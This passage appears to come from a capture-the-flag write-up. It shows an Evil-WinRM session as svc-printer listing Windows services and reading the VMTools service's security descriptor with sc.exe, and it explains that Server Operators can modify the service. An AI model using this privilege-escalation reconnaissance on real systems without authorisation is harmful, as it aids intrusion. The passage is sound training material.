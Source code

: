 ```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> services

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc
```

We can use **`sc.exe`** to list the permissions on services. We can try with the **VMTools** service : 

```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe sdshow VMTools

D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)
```

The output is in **SDDL (Security Descriptor Definition Language)** format. [Here](https://itconnect.uw.edu/tools-services-support/it-systems-infrastructure/msinf/other-help/understanding-sddl-syntax/) is a documentation to understand the syntax of this output. According to this documentation, the **Server Operators** group has the following privileges on the **VMTools** service : 

- CC : Create All Child Objects
- DC : Delete All Child Objects
- LC : List Contents
- SW : All Validated Writes
- RP : Read All Properties
- **WP : Write All Properties**
- DT : Delete Subtree
- LO : List Object
- CR : All Extended Rights
- SD : Delete
- RC : Read Permissions
- WD : Modify Permissions
- WO : Modify Owner
